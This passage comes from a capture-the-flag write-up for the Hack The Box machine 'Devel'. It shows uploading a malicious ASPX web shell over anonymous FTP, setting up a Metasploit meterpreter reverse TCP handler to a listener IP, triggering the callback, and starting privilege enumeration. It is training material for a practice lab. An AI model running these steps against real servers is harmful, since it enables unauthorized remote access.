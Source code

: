 Next we need to upload the meter-shell.aspx file to Devel:

    ftp 10.10.10.5
    
    anonymous
    
    anypassword
    
    put meter-shell.aspx
    
    dir
    
    quit

Now we load up msfconsole and set up msf's multi/handler to catch our meterpreter reverse tcp connection. Make sure you set LHOST and LPORT to your own IP address and the port you chose to use in the msfvenom command above:

    msfconsole
    
    use exploit/multi/handler

    set payload windows/meterpreter/reverse_tcp

    set lhost 10.10.14.24

    set lport 4444

If all options look good, run the handler:

    run

![](/images/devel/10. multi_handler.png)

Now, when we browse to http://10.10.10.5/meter-shell.aspx we should trigger our maclicious meter-shell.aspx file to call back:

![](/images/devel/11. trigger_web.png)

The browser may appear to hang, but that's okay. Over in your msfconsole terminal you should see:

![](/images/devel/12. meterpreter_session.png)

A meterpreter shell! Awesome, let's enumerate:

    sysinfo

![](/images/devel/13. sysinfo.png)

So we have a Windows 7, 32-bit machine. Let's see what privileges we have:

    getuid

![](/images/devel/14. getuid.png)

We are the web service which is essentially not privileged at all.  That's okay!  Hit ctrl+z to background your meterpreter shell. Hit 'y' then Enter to confirm and you should drop back to the msfconsole:

    search suggester
